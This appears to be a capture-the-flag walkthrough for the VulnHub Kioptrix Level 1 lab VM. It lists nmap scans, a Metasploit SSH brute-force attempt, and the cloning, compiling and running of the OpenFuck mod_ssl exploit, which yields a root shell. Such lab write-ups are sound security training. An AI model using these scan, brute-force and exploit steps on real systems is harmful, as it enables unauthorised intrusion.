 # Kioptix-level-1-walk-through


### download the machine from https://www.vulnhub.com/entry/kioptrix-level-1-1,22/ 

then launch using VMware 

no credintial are provided 


Notes :
----

make sure your system is upgraded           
sudo apt update && sudo apt upgrade                 
sudo apt install exploitdb 

make sure your main system and the target on the same network

scan the target using nmap 
--
Nmap -sn 192.168.1.*

got the kioptrix vm ip at 

Nmap -sC -sV 192.168.1.104

found some open ports ( -22-80-111,139-445-1009)
  
now lets walkthrough each port and see what we can do (separately and combined):
----


 
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
----

 
 
 nmap -sV -sC 192.168.1.104 -p 22 --script vuln get some result 
 
 CVE-2011-1013 CVSS 7.2
---
 allows local users to cause a denial of service (system crash)

 CVE-2010-4478 CVSS 7.5
---
 which allows remote attackers to bypass the need for knowledge of the shared secret, and successfully authenticate
 
  unfortunately there are no proof of concept or working exploit available online also there are no Metasploit module for them
 
 so I've moved to another approached " brute forcing the service for root credentials " using metaspolit
 ---
 msf > use auxiliary/scanner/ssh/ssh_login
 
msf auxiliary(ssh_login) > set RHOSTS 192.168.1.104
 
RHOSTS => 192.168.1.104
 
msf auxiliary(ssh_login) > set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
 
USERPASS_FILE => /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
 

 msf auxiliary(ssh_login) > run
 
 no promising results , 
  

 
 
 53/tcp   open  domain      ISC BIND 9.4.2
----
 using nmap engine found CVE-2008-0122 CSSV 10.0 vulneraries that causes Denial Of Service Execute Code Memory corruption

 
 There are not any Metasploit modules related to this CVE or any working online exploit
 
 
 
 111/tcp  open  rpcbind     
  ----
  
 sudo showmount -e 192.168.1.104
  
 no files are mounted
  
 139/tcp  open  netbios-ssn Samba smbd 
 ---
 couldn't vefiy any exploit for this exact service
  
  443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
---

search exploit-db for  Apache openssl

This Exploit (https://www.exploit-db.com/exploits/764/) is outdated. Here you can take updated

Download OpenFuck.c

git clone https://github.com/heltonWernik/OpenFuck.git

Install ssl-dev library

apt-get install libssl-dev

It's Compile Time

gcc -o OpenFuck OpenFuck.c -lcrypto

Running the Exploit

./OpenFuck

 ./OpenFuck -h |grep 1.3.20
 

./OpenFuck 0x6a 192.168.1.104 443 -c 40
 
 id 
 
root
Thanks for taking some time reading this i hope it was useful please don't hesitate correcting me any mistake for giving me advise
 ----
